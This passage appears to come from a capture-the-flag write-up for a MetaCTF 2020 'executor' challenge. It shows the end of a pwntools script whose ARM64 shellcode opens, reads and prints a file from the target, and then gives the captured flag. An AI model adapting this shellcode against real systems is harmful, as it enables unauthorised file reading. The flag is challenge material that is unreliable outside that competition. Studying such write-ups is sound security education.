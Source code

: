     movk x1, #0x6c62, lsl #48
    str  x1, [sp, #-8]!
    mov  x1, #0x652d
    movk x1, #0x7361, lsl #16
    movk x1, #0x6c69, lsl #32
    movk x1, #0x2d79, lsl #48
    str  x1, [sp, #-8]!
    mov  x1, #0x7265
    movk x1, #0x6e2f, lsl #16
    movk x1, #0x746f, lsl #32
    movk x1, #0x612d, lsl #48
    str  x1, [sp, #-8]!
    mov  x1, #0x682f
    movk x1, #0x6d6f, lsl #16
    movk x1, #0x2f65, lsl #32
    movk x1, #0x7375, lsl #48
    str  x1, [sp, #-8]!
    add  x1, sp, x0
    mov  x2, xzr
    mov  x8, #56
    svc  #0x1337

    // read(fd, *buf, size)
    mov  x2, #0xfff
    sub  sp, sp, x2
    mov  x8, xzr
    add  x1, sp, x8
    mov  x8, #63
    svc  #0x1337


    // write(1, *buf, size)
    str  x0, [sp, #-8]!
    lsr  x0, x2, #11
    ldr  x2, [sp], #8
    mov  x8, #64
    svc  #0x1337



    // exit(status)
    mov  x8, #93
    svc  #0x1337
    '''
    r.sendline(asm(p))
    r.interactive()

if __name__ == "__main__":
    main()

{% endhighlight %}

<img src="/images/MetaCTF2020/executorflag.png"/>
FLAG: MetaCTF{M1ght7_sh3llc0d3r5_0f_m4n7_4rch1t3ctur35}
